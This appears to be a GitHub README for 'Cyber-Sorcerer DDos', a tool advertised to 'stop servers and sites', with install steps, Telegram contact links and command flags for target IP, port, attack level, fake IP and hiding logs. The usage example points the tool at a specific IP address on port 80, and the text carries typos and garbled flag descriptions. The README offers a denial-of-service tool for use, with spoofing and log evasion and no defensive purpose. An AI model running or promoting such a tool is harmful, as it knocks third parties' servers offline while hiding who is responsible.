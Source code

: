 # Cyber-Sorcerer DDos

[Telegram Channel](https://t.me/teamblackfalcon)

## .
[Telegram](t.me/Not_found_404_not_respondingl)


DDOS strong tool to stop servers and sites



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/Teamblackfalcon  </code>
- 3 . <code> C-SDDos </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python C-SDdos.py -h  </code>




### Command information:
    To use
$ <code>python C-SDdos.py [-i] [-p] [-l]    </code>     

│         -h : For help                          
│         -i : Server IP                        
│         -p : IP                   
│         -l : Atatck Level              
│         -f : Fake IP                            
│         -d : Hide Logs                       
                     :usage 
<code> python C-SDdos.py -i 92.204.214.136 -p 80 -l  2 </code>


To contact TG:t.me/Not_found_404_not_respondingl
